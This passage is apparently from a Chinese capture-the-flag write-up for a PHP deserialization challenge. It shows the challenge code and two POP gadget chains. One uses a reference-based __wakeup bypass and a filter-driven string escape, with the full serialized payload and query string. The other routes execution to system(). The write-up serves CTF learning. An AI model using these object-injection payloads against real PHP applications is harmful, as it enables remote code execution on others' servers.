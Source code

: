 ```php

  public function __wakeup(){
    $this->eval='no way';
  }
}

if(isset($_GET['ciscn_huaibei.pop'])){
  $pop=new start($_GET['ciscn_huaibei.pop'],$_GET['pop']);
  $ser=filter(serialize($pop));
  unserialize($ser);
}else{
  highlight_file(__FILE__);
}
?>
```
#### 思路一
利用链：Done.__invoke() <-- Get.__get() <-- Get.__toString() <-- Go.__destruct()
通过引用绕过wakeup
```
$done = new Done();
$done->useless = 'phpinfo();';
$done->eval = &$done->use;
$get = new Get();
$get->func = $done;
$get2 = new Get();
$get2->name = $get;
$go = new Go();
$go->ray = $get2;

$exp = serialize($go);
```
```
O:2:"Go":1:{s:3:"ray";O:3:"Get":2:{s:4:"func";N;s:4:"name";O:3:"Get":2:{s:4:"func";O:4:"Done":4:{s:4:"eval";N;s:5:"class";N;s:3:"use";R:6;s:7:"useless";s:10:"phpinfo();";}s:4:"name";N;}}}
```
再通过filter函数导致序列化数据变短，覆盖部分数据，进行反序列化逃逸
ciscn_huaibei.pop为getflag，pop为上述序列化数据，过滤后如下
```
O:5:"Start":2:{s:5:"start";s:7:"hark";s:3:"end";s:187:"O:2:"Go":1:{s:3:"ray";O:3:"Get":2:{s:4:"func";N;s:4:"name";O:3:"Get":2:{s:4:"func";O:4:"Done":4:{s:4:"eval";N;s:5:"class";N;s:3:"use";R:6;s:7:"useless";s:10:"phpinfo();";}s:4:"name";N;}}}";}
```
要把`";s:3:"end";s:187:`这部分覆盖掉，getflag变成hark缩短3位，故需要6个getflag
同时要满足end元素的值为序列化数据，序列化数据前添加`;s:3:"end";`
```
;s:3:"end";O:2:"Go":1:{s:3:"ray";O:3:"Get":2:{s:4:"func";N;s:4:"name";O:3:"Get":2:{s:4:"func";O:4:"Done":4:{s:4:"eval";N;s:5:"class";N;s:3:"use";R:6;s:7:"useless";s:10:"phpinfo();";}s:4:"name";N;}}}
```
同时，引用在序列化中值R也要改变
直接构造$end=$go，序列化后发现引用值R为8
最后payload：
```
?ciscn_huaibei.pop=getflaggetflaggetflaggetflaggetflaggetflag&pop=;s:3:"end";O:2:"Go":1:{s:3:"ray";O:3:"Get":2:{s:4:"func";N;s:4:"name";O:3:"Get":2:{s:4:"func";O:4:"Done":4:{s:4:"eval";N;s:5:"class";N;s:3:"use";R:8;s:7:"useless";s:10:"phpinfo();";}s:4:"name";N;}}}
```
#### 思路二
利用链：Get.__get() <-- Get.__toString() <-- Go.__destruct()
直接用`call_user_func`执行命令，不用Done类，也就不用绕过wake了
```javascript
$get = new Get();
$get1 = new Get();
$get1->func = "system";
$get->name = $get1;
```